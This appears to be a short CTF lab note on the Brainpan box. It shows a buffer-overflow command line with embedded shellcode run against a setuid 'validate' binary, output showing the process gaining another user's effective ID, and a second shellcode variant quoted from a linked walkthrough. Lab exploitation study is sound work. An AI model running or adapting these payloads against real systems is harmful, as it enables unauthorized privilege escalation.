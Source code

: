 
Running the payload:
```sh
puck@brainpan:/home/puck$ /usr/local/bin/validate $(python -c "print('\xda\xc7\xd9\x74\x24\xf4\x5a\xbd\xb8\xd8\xdd\xb1\x31\xc9\xb1\x0b\x31\x6a\x1a\x83\xc2\x04\x03\x6a\x16\xe2\x4d\xb2\xd6\xe9\x34\x11\x8f\x61\x6b\xf5\xc6\x95\x1b\xd6\xab\x31\xdb\x40\x63\xa0\xb2\xfe\xf2\xc7\x16\x17\x0c\x08\x96\xe7\x22\x6a\xff\x89\x13\x19\x97\x55\x3b\x8e\xee\xb7\x0e\xb0'+'A'*46+'\xaf\x84\x04\x08')")
97\x55\x3b\x8e\xee\xb7\x0e\xb0'+'A'*46+'\xaf\x84\x04\x08')")6a\xff\x89\x13\x19\x 
$ id
id
uid=1002(puck) gid=1002(puck) euid=1001(anansi) groups=1001(anansi),1002(puck)
$ 
```


Compare to

Working example from https://d7x.promiselabs.net/2018/03/07/ctf-brainpan-1-ctf-walkthrough-introduction-to-exploit-development-part-2/ - only works on the box, not on my machine:
```sh
┌──(kali㉿kali)-[~/bof]
└─$ ./validate $(python -c "print('\xba\xf1\x5c\x77\x54\xd9\xc5\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x0b\x31\x50\x15\x03\x50\x15\x83\xe8\xfc\xe2\x04\x36\x7c\x0c\x7f\x95\xe4\xc4\x52\x79\x60\xf3\xc4\x52\x01\x94\x14\xc5\xca\x06\x7d\x7b\x9c\x24\x2f\x6b\x96\xaa\xcf\x6b\x88\xc8\xa6\x05\xf9\x7f\x50\xda\x52\xd3\x29\x3b\x91\x53'+'\x90'*(116-70)+'\xaf\x84\x04\x08')")
```
meaning we cannot test on my machine!
